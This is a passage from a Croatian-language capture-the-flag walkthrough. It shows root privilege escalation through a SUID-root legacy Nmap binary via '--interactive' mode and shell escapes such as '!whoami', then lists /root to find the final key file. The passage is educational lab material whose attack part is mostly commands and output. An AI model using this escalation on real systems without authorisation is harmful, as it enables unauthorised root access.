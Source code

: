 [LINK](https://pentestlab.blog/category/privilege-escalation/) kao što možemo pročitati na gornjoj poveznici, ovo je starija verzija Nmapa. Verzije od 2.02 do 5.21 imale su tzv. Interaktivni način nam je omogućio izvršavanje naredbi. Osim toga, provjera `SETUID` omogućit će nam pokretanje naredbi kao root.

> ```shell
> $ ls -l /usr/local/bin/nmap
> ls -l /usr/local/bin/nmap
> -rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap
> ```

#### Pokretanje Nmapa u interaktivnom modu:

Naredba:

> ```shell
> nmap --interactive
> ```

Rezultat: 

> ```shell
> $ nmap --interactive
> nmap --interactive
>
> Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
> Welcome to Interactive Mode -- press h <enter> for help
> nmap> !whoami
> !whoami
> root
> waiting to reap child : No child processes
> ```

Vidimo da je Nmap u interaktivnom root modu.

#### Pronalaženje konačnog ključa:

Prvo ćemo provjeriti je li treća zastavica u korijenu. 

Naredba:

> ```shell
> !ls /root
> ```

Rezultat: 

> ```shell
> nmap> !ls /root
> !ls /root
> firstboot_done  key-3-of-3.txt
> waiting to reap child : No child processes
> ```
      
Pronašli smo treći ključ koji se nalazi u tekstualnoj datoteci. Sadržaj možemo pročitati sljedećom naredbom:

